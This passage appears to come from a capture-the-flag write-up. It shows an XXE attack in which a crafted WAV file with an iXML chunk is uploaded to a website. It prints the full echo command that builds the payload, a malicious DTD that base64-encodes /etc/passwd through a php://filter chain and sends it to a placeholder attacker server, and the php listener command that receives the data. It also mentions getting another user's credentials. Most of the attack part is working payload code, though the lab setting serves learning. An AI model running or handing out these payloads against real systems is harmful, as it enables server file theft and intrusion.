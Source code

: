 Now we try to get a user's credentials who also has the ability to _upload_ files onto the website.

![](./assets/upload.png)

Now we can create a malicious WAV file.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[Our IP]:[PORT]/[FILE].dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Now create an `evil.dtd` file to store the next part of the payload

```dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Now open a webserver on your machine with:

```bash
php -S 0.0.0.0:[PORT]
```

And you'll receive something like this...

![](./assets/server.png)

The request made to the server is the base64 encoded version of our query

--------------------------------------------------------------------------------

### Ready Set Go!

--------------------------------------------------------------------------------
